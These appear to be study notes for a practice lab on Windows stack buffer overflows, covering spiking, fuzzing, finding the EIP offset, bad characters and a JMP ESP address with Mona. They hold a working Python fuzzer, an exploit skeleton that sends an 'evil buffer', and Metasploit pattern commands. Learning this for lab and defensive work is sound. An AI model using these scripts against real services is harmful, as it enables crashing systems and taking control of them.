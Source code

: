 Notes on Buffer Overflows

### Basic Notes 
Need to run Immunity Debugger as Admin.
Make sure it's running.

## Steps to Conduct a Buffer Overflow
1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode


## Configure Mona
#### Set up working folder
```
!mona config -set workingfolder c:\mona\%p
```
### Python Fuzzer Script

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "Target IP Address"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```
  
##### Purpose of the Script
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. We need to write down how many bytes it sends and add 400 to help with with the exploit.

##### After we know the value from the fuzzer, we can use Metasploit to create a cyclic pattern that we need for our exploit.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (The number of bytes from the Fuzzer.py script + 400) 
```

##### Purpose of the Script
The exploit script is used to crash the service and help find the EIP Offset.
  ### Python Exploit Script
  
```python 
import socket

ip = "10.10.165.171"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
When we have the payload from the patter_create.rb script, we copy that into the payload variable and run the exploit script again. We then need to use Mona to help finish finding the EIP Offset.
```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l {The number of bytes from the Fuzzer.py script + 400} -q {EIP Register}
```

###
We need to update the exploit script.
```python
offset = (needs to be the EIP value we just found from the last step)
retn = "BBBB"
```

### Finding Bad Chars

Create Working Directory for Mona
```
!mona config -set workingfolder c:\mona
```

The following Mona command will generate a bytearray and exclude the null byte (\x00) by default. * Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).
```
!mona bytearray -cpb "\x00"
```

##### Purpose of the Script
The following python script can be used to generate a string of bad chars from \x01 to \xff:
### Python Bad Chars Script

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Once we run this, we use the output and update the exploit.py script payload variable with this output. Then run the exploit.py script again and start removing bad characters. We do this using Mona
```
!mona compare -f C:\mona\oscp\bytearray.bin -a (ESP Address)
```
##### Mona Modules to find vuln path
```
!mona modules
```

##### Using Mona Modules to find ESP JMP
```
!mona find -s "\xff\xe4" -m {vuln path}
```
Add the value in reverse (little endian) in \x format in the payload. 
Then set a break point for the JMP ESP to make sure payload hits it.

